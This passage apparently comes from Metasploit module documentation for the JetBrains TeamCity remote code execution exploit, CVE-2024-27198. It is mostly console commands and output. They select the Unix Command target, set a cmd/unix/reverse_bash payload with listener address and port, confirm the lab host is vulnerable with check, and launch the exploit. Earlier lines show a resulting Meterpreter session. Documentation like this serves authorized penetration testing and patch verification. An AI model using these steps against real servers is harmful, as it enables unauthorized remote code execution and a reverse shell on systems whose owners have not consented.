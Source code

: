 ```
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > pwd
/opt/TeamCity/bin
meterpreter > 
```

### Unix Command

This target is suitable for targeting Linux, OSX, or any of the unofficially supported platforms such as
Solaris, FreeBSD and so on.

Note: Ensure the target is a Unix-like target by confirming via the `check` command.

```
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > set target 4
target => 4
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > set payload cmd/unix/reverse_bash
payload => cmd/unix/reverse_bash
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > show options

Module options (exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS             192.168.86.43    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT              8111             yes       The target port (TCP)
   SSL                false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI          /                yes       The base path to TeamCity
   TEAMCITY_ADMIN_ID  1                yes       The ID of an administrator account to authenticate as
   VHOST                               no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   CreateSession  true             no        Create a new session for every successful login
   LHOST          eth0             yes       The listen address (an interface may be specified)
   LPORT          4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   4   Unix Command



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > check
[+] 192.168.86.43:8111 - The target is vulnerable. JetBrains TeamCity 2023.11.3 (build 147512) running on Linux.
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
```